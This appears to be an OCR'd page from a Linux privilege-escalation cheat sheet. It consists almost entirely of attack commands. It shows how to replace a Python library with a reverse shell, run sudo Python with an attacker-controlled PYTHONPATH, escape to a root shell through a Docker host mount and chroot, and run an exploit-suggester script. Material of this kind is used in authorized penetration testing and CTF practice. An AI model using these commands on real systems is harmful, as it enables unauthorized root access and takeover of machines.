 
# APPS & PACKAGES

```shell
/usr/lib/pythonX.X/lib_name.py -> REVERSE_SHELL
python3 -c 'import sys print("\n".join(sys.path))'
/usr/lib/pythonX/dist-packages/lib_name.py -> REVERSE_SHELL
sudo PYTHONPATH=/tmp /usr/bin/pythonX.X
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

---

# AUTO & KERNEL EXPLOITING

```shell
./linux-exploit-suggester.sh
```